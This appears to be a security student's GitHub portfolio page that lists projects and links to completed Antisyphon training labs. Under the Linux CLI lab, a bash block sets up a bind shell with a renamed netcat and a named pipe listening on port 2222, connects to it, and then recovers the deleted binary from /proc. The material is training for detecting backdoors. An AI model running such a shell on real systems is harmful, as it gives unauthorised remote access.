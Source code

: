 # All Projects

[Vulnerability Management Tenable](/Vulnerability%20Management%20Tenable)

[Password Strength Checker and Password Generator](/Password)

[EXIF data](/EXIF%20data)

[Subdomain Enumeration and Reconnaissance](/Subdomain%20Enumerator)

[Bypass Windows Login Screen](Bypass%20Windows%20Login%20Screen)

[Linux Login Bypass and Prevention](/Linux%20Login%20Bypass%20and%20Prevention)

[Caesar Cipher Encryptor and Decryptor](/Caesar%20Cipher%20Encryptor%20and%20Decryptor)

[LSB Steganography](/LSB%20Steganography)

[Linkedin Automated Messaging](/Linkedin%20Automated%20Messaging)

[Password Hash Cracker](/Password%20Hash%20Cracker)



## Getting Started in Security with BHIS and MITRE ATT&CK with John Strand by Antisyphon Training (Successfully finished practice labs)

[Lab 1: AppLocker](https://github.com/KAISERaustin/IntroLabsRemastered/blob/master/IntroClassFiles/Tools/IntroClass/AppLocker/AppLocker.md)

[Lab 2: Password Cracking](https://github.com/KAISERaustin/IntroLabsRemastered/blob/master/IntroClassFiles/Tools/IntroClass/PasswordCracking/PasswordCracking.md)

[Lab 3: Password Spraying](https://github.com/KAISERaustin/IntroLabsRemastered/blob/master/IntroClassFiles/Tools/IntroClass/PasswordSpray/PasswordSpray.md)

[Lab 4: RITA](https://github.com/KAISERaustin/IntroLabsRemastered/blob/master/IntroClassFiles/Tools/IntroClass/RITA/RITA.md)

[Lab 5: DeepBlueCLI](https://github.com/KAISERaustin/IntroLabsRemastered/blob/master/IntroClassFiles/Tools/IntroClass/deepbluecli/DeepBlueCLI.md)

[Lab 6: Domain Log Review](https://github.com/KAISERaustin/IntroLabsRemastered/blob/master/IntroClassFiles/Tools/IntroClass/DomainLogReview/DomainLogReview.md)

[Lab 7: Sysmon](https://github.com/KAISERaustin/IntroLabsRemastered/blob/master/IntroClassFiles/Tools/IntroClass/Sysmon/Sysmon.md)

[Lab 8: Atomic Red Team and BlueSpawn](https://github.com/KAISERaustin/IntroLabsRemastered/blob/master/IntroClassFiles/Tools/IntroClass/bluespawn/Bluespawn.md)

[Lab 9: Nmap](https://github.com/KAISERaustin/IntroLabsRemastered/blob/master/IntroClassFiles/Tools/IntroClass/Nmap/Nmap.md)

[Lab 10: Web Testing](https://github.com/KAISERaustin/IntroLabsRemastered/blob/master/IntroClassFiles/Tools/IntroClass/WebTesting/WebTesting.md)

[Lab 11: Nessus](https://github.com/KAISERaustin/IntroLabsRemastered/blob/master/IntroClassFiles/Tools/IntroClass/nessus/Nessus.md)

[Lab 12: PingCastle and PlumHound](https://github.com/KAISERaustin/IntroLabsRemastered/blob/master/IntroClassFiles/Tools/IntroClass/PingCastle.md)


## SOC Core Skills with John Strand by Antisyphon Training (Successfully finished practice labs)

[Lab 1: Wireshark](https://github.com/KAISERaustin/IntroLabsRemastered/blob/master/IntroClassFiles/Tools/IntroClass/Wireshark/Wireshark.md)

[Lab 2: Linux CLI](https://github.com/KAISERaustin/IntroLabsRemastered/blob/master/IntroClassFiles/Tools/IntroClass/LinuxCLI/LinuxCLI.md)


```bash
mv /nc ./notnetcat
mknod backpipe p
/bin/bash backpipe 0<backpipe | notnetcat -l 2222 1>backpipe

#Other Terminal
nc 10.10.104.64 2222
rm ./notnetcat

netcat gone but still works
cd /proc/11625
cp ./exe /tmp/backupexe
cd /tmp
strings ./backupexe | less
```

[Lab 3: Windows CLI](https://github.com/KAISERaustin/IntroLabsRemastered/blob/master/IntroClassFiles/Tools/IntroClass/WindowsCLI/WindowsCLI.md)

